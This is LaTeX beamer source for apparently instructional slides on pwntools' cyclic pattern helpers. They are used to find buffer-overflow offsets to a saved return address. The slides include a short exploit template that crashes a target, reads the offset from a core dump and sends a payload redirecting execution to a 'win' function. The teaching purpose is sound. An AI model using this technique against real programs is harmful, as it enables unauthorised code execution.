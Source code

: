 \documentclass[aspectratio=169]{beamer}
\newcommand{\reg}[1]{\%\texttt{#1}}
\newcommand{\hex}[1]{\texttt{0x#1}}
\newcommand{\docl}[1]{(\textbf{\href{#1}{Documentation}})}
\begin{document}
{\begin{frame}[fragile]
    \frametitle{cyclic \docl{http://docs.pwntools.com/en/stable/util/cyclic.html}}
    \begin{itemize}
        \item use  to create a string of length 128 whose subsequences are all unique
        \item useful to identify how many bytes you need to overflow
        \item for example, if  crashes at \hex{48474645}, 4 bytes of overflow before saved \reg{rip}
        \item use with  to identify offset in string returned by  (use with corefile explained later)
        \item Example:
        \begin{codebox}{python}
io.send(cyclic(128)) # segfault at 0x61616164616161
offset = cyclic_find(0x61616164616161) # offset = 9
io.send("A"*offset + payload) # next run, use offset\end{codebox}
    \end{itemize}
\end{frame}

\begin{frame}[fragile]
	\frametitle{Sploiting automation}
	\begin{codebox}{python}
io = start()
io.send(cyclic(200, n=8))
io.shutdown()
io.wait()

# echo 1 | sudo tee /proc/sys/kernel/core_uses_pid
# echo "/tmp/core" | sudo tee /proc/sys/kernel/core_pattern
# echo 0 | sudo tee /proc/sys/kernel/core_uses_pid
core = Coredump("/tmp/core")
offset = cyclic_find(p64(core.fault_addr), n=8)

io = start()
payload = fit({ offset: exe.symbols.win })
io.send(payload)
io.interactive()\end{codebox}
\end{frame}

}
\end{document}
